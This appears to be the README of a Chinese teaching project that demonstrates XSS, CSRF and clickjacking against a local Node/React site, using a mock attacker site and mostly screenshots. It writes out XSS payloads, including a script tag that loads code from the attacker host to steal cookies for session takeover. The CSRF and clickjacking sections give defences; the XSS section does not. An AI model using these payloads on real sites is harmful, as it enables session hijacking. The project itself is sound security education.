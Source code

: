 # web-Safe
基于 node 的web安全的简单攻击和防御方案


项目代码
>app： 正常的网站  
>hack：模拟黑客攻击的网站  
>使用技术： node+express+react+mysql

#### 一、XSS（Cross-Site Scripting） 跨站脚本攻击

> 原理：恶意攻击者往 Web 页面里插入恶意可执行网页脚本代码，当用户浏览该页之时，嵌入其中 Web 里面的脚本代码会被执行，从而可以达到攻击者盗取用户信息或其他侵犯用户安全隐私的目的。

###### 1.代码目录

![WechatIMG3062.jpeg](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ede7f6787a9f423d9a2f3dd39104571b~tplv-k3u1fbpfcp-watermark.image)

###### 2. 建立数据库

![WechatIMG31.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/4d3457bc745d48e0b7e907dcdb169f13~tplv-k3u1fbpfcp-watermark.image)

node app/mysql.js 先执行这个文件创建表和数据

![WechatIMG32.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f7006b71c5f24e6fa86169a6a2b9e96d~tplv-k3u1fbpfcp-watermark.image)

###### 如图所示

![WechatIMG30.jpeg](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/7041550d585b47b7a15cbbfe7497a803~tplv-k3u1fbpfcp-watermark.image)

###### 3.这时候运行项目npm run start 打开home页面

![WechatIMG33.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c16a23d6176f4e089c48614cc5689bf9~tplv-k3u1fbpfcp-watermark.image)


![WechatIMG34.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/a1d0112bbb4847acaa51d9dc77c36bb5~tplv-k3u1fbpfcp-watermark.image)

这个时候home页面是用react模板写的，`React DOM` 会在渲染的时候把内容（字符串）进行转义，所以字符串形式的标签是不会作为 `HTML` 标签进行处理的，所以输入scipt是不能执行的

所以加了一个利用ejs模板加载的页面xss.html(无论是从url上输入script标签例如http://localhost:4000/xss?text=<script>alert(2)</script>还是直接获取数据库存储的代码都会被执行)

![WechatIMG38.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/dd8e485586f14ac7940d7d4aa9537f2f~tplv-k3u1fbpfcp-watermark.image)
![WechatIMG37.jpeg](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/eb66a7f719f1415b93af26910b2fb788~tplv-k3u1fbpfcp-watermark.image)

![WechatIMG39.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/1b9b993bb4f44bf8b84e473377a0e35f~tplv-k3u1fbpfcp-watermark.image)

###### 4.开始利用documen.cookie攻击,按照刚才的方式把<script>alert(1)</script>改成<script src="http://localhost:5000/xss.html"></script>进行攻击

打开http://localhost:4000/xss会看到请求了http://localhost:5000/xss.html的接口
![WechatIMG41.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b334554ec7de40a295062fddfe5a381e~tplv-k3u1fbpfcp-watermark.image)

在控制台可以看到5000端口的黑客网站已经打印出来了cookie，利用cookie我们完全可以在控制台设置cookie直接登录网站
![WechatIMG42.jpeg](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/58551c1ae5544134a4c7ec45b0efd3c6~tplv-k3u1fbpfcp-watermark.image)

#### 二、CSRF 跨站点伪造

原理： 诱导用户打开黑客的网站，在黑客的网站中，利用用户登录状态发起跨站点请求。

1.在登录状态下，打开localhost：5000/csrf.html页面，在控制台上我们看到了setDataList的请求，这个就是提交内容的接口，在4000的home页面可以看到内容改变了
![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/773039b6461b4fdea658653f25ee7b60~tplv-k3u1fbpfcp-watermark.image)

正常网站内容被更改
![WechatIMG44.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/fc6d885103d942708b523c3119a58468~tplv-k3u1fbpfcp-watermark.image)


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/9a74e8c231b84167be5efd0050327851~tplv-k3u1fbpfcp-watermark.image)

解决方案（生成token， 接口带上nonce和timesTamp）


![WechatIMG47.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/e311794afb5f4fd38e260c55e52cf87c~tplv-k3u1fbpfcp-watermark.image)

![WechatIMG46.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/834989dd0c684e7c8be5b405909434b0~tplv-k3u1fbpfcp-watermark.image)

### 三、点击劫持

原理：用户在登陆 A 网站的系统后，被攻击者诱惑打开第三方网站，而第三方网站通过 iframe 引入了 A 网站的页面内容，用户在第三方网站中点击某个按钮（被装饰的按钮），实际上是点击了 A 网站的按钮。

1. 打开http://localhost:5000/clickHijack.html点击按钮，实际上是点击了http://localhost:4000/home的关注按钮，因为iframe嵌入了4000的页面，因为4000
![30.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/3ec91ec3ab8b4782abc22da625e43f85~tplv-k3u1fbpfcp-watermark.image)


![31.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f99fa121ec65484a9c7e774154a2d0fe~tplv-k3u1fbpfcp-watermark.image)


![WechatIMG50.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/9db710bbd0754ce2b179bcc82595e1ca~tplv-k3u1fbpfcp-watermark.image)

解决方案，对iframe嵌入做限制

![image.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/bbf3f597d6944b42ab2b8170e21fe8ff~tplv-k3u1fbpfcp-watermark.image)

![WechatIMG51.jpeg](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5d772917b4754fb1a88abe1262d8cb68~tplv-k3u1fbpfcp-watermark.image)
